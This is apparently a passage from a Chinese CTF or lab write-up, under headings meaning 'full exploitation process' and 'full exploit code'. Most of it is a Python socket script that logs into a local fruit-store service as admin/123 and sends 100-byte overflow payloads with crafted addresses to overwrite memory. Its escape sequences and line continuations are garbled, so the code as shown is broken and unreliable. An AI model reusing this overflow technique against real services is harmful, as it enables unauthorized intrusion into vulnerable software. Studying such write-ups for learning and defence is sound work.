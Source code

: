 [![](https://p0.ssl.qhimg.com/t016277a639b49ccaca.png)](https://p0.ssl.qhimg.com/t016277a639b49ccaca.png)

完整利用过程：<br>[![](https://p0.ssl.qhimg.com/t01281cae396fd2dd71.gif)](https://p0.ssl.qhimg.com/t01281cae396fd2dd71.gif)

完整利用代码：

```
import socket
import time

targetIp = '192.168.150.137'
targetPort = 8888

client = socket.socket()
client.connect((targetIp,targetPort))

def sendData(strData):
    bHex = bytes(strData, encoding='ascii')
    client.sendall(bHex)
    time.sleep(0.2)
    data = client.recv(1024)
    try:
        print(str(data, "ascii"))
    except:
        print(data)

def sendBin(bHex):
    client.sendall(bHex)
    time.sleep(0.2)
    data = client.recv(1024)
    try:
        print(str(data, "ascii"))
    except:
        print(data)

def login(user,password):
    sendData('0n')
    sendData(user + 'n')
    sendData(password + 'n')

def changeFruit(id,price,amount,des):
    client.sendall(bytes('2n', encoding='ascii'))
    sendData(id + 'n')
    sendData(price + 'n')
    sendData(amount + 'n')
    sendBin(des)

login('admin','123')

bHex1 = b'x41'*100 + 
        b'x70x22x60x00' 
        b'x0Dx0A'

changeFruit('1','0','0',bHex1)
changeFruit('2','0','6299700',b'x00x0Dx0A')

bHex2 = b'x41'*100 + 
        b'x08x22x60x00' 
        b'x0Dx0A'

changeFruit('1','0','0',bHex2)
changeFruit('3','0','0',b'xC0x07x40x00x00x00x00x0Dx0A')

```